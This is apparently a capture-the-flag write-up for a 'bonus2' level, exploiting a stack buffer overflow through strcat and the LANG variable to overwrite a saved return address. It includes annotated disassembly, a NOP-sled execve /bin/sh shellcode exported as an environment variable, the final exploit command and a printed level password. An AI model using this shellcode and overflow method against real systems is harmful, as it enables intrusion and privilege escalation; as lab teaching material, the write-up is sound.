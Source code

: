Execute the *bonus2* binary:

```bash
./bonus2
./bonus2 aaa
./bonus2 aaa bbb
./bonus2 aaa bbb ccc
```

```
Hello aaa
```

> Note that the program work maybe only with 2 arguments.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```

```
; main
...
0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>  ; call the strncpy function for copy n characters from a string
                                                    ; to an another one
                                                    ; [ARG 1] the address of the stack buffer (exp + 80)
                                                    ; [ARG 2] the address of the first user string argument
                                                    ; [ARG 3] 40
...
0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>  ; call the strncpy function for copy n characters from a string
                                                    ; [ARG 1] the stack buffer (exp + 80) + 40
                                                    ; [ARG 2] the address of the second user string argument
                                                    ; [ARG 3] 40
...
0x080485a6 <+125>:	call   0x8048380 <getenv@plt>   ; call the getenv function to get an environment variable
                                                    ; [ARG 1] "LANG" string address
...
0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>   ; call the memcmp function to compare two string
                                                    ; [ARG 1] the string address returned by getenv
                                                    ; [ARG 2] the string addres "fi"
...
0x08048605 <+220>:	call   0x8048360 <memcmp@plt>       ; call the memcmp function to compare two string
                                                        ; [ARG 1] the string address returned by getenv
                                                        ; [ARG 2] the string addres "nl"
...
0x08048629 <+256>:	rep movs DWORD PTR es:[edi],DWORD PTR ds:[esi]  ; copy the 19 first characters of the
                                                                    ; returned string from the getenv call
                                                                    ; to the buffer stack (esp + 80)
0x0804862b <+258>:	call   0x8048484 <greetuser>    ; call the custom greetuser function
...
```

```gdb
disass greetuser
```

```
...
0x080484a7 <+35>:	mov    DWORD PTR [eax],ecx          ; put the string "Hell" part of the string "Hello " address from edx in eax (by value)
0x080484a9 <+37>:	movzx  ecx,WORD PTR [edx+0x4]       ; put the string "o " part of the string "Hello " address from edx (+4) in ecx (by value)
0x080484ad <+41>:	mov    WORD PTR [eax+0x4],cx        ; put the string "o " part of the string "Hello " address from cx  in eax (+4) (by value)
...
0x08048517 <+147>:	call   0x8048370 <strcat@plt>       ; call the strcat function to copy a string into an another one
                                                        ; [ARG 1] the address of a stack buffer
                                                        ; [ARG 2] the first argument of the function
...
0x08048522 <+158>:	call   0x8048390 <puts@plt>         ; call the puts function to print a string
                                                        ; [ARG 1] the pointer to string result of the strcat call
...
```

After desassembling the binary to understand it:
- If there are not 3 arguments, the program stop.
- Copy the first 40 bytes of the first user argument in the first buffer.
- Copy the the first 32 bytes of the second user argument in a the rest of the first buffer.
- Get the value of the "LANG" environment variable.
- If the value of the "LANG" environment variable is "":
    * concatenate "Hello " and the first buffer of 80 bytes together in the second buffer.
- If the value of the "LANG" environment variable is "fi":
    * concatenate "Hyvää päivää " and the first buffer of 80 bytes together in the second buffer.
- If the value of the "LANG" environment variable is "nl":
    * concatenate "Goedemiddag! " and the first buffer of 80 bytes together in the second buffer.
- Print the second buffer in the output.

Let's try to overflow the stored eip in the stack using the __stract__ function at from the *greetuser* function:

```gdb
run aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 1111222233334444555566667777888899990000
```

```
Program received signal SIGSEGV, Segmentation fault.
0x08003838 in ?? ()
```

> Note we can partially overflow the saved eip of the *greetuser* function. The first 4 bytes are from the default return address *0x08048630* ('info stack' in gdb), and the 4 last bytes corresponde to the '...8888...' part of the second user argument.

The goal now is to overflow completely this saved eip of the *greetuser*.

Remember that if the "LANG" environement variable is set to "nl" or "fi", the size of the second buffer which is responsible of the overflow, can increase.

Let's try to overflow like the previous time, with the "nl" value for the "LANG" environment variable.

```bash
export LANG=nl
```

```gdb
run aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 1111222233334444555566667777888899990000
```

```
Program received signal SIGSEGV, Segmentation fault.
0x37373736 in ?? ()
```

Now the saved eip of the *greetuser* is completely overflow.

> The *0x37373736* corresponde to the '...6777...' part of the second user argument at the 23rd bytes.

> The size of the first user argument is not important expected it must be greater or equal to 40 bytes.

Export a shellcode with some *nop* instructions:

```
export SHELLCODE=`python -c 'print("\x90" * 300 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")'`
```

Get the address where is the shellcode environment variable is stocked using a small program:

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    printf("LANG: %p\n", getenv("LANG"));
    printf("SHELLCODE: %p\n", getenv("SHELLCODE"));
}
```

```bash
vim /tmp/getenv.c
# copy the small program
gcc /tmp/getenv.c -o /tmp/getenv.out
/tmp/getenv.out
```

```
LANG: 0xbffffeee
SHELLCODE: 0xbffff740
```

> The addresses of the environment variables are differents for each expert...

Construct the inputs:

- First argument:
    * 40 random bytes to fill the first part of the buffer
- Second argument:
    * 23 bytes to reach the offset of the saved eip of the *greetuser* function
    * 4  address bytes of the shellcode (reversed...)


```bash
./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa $(echo -e "bbbbbbbbbbbbbbbbbbbbbbb\x40\xf7\xff\xbf")
cat /home/user/bonus3/.pass
```

```
Goedemiddag! aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbb@���
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```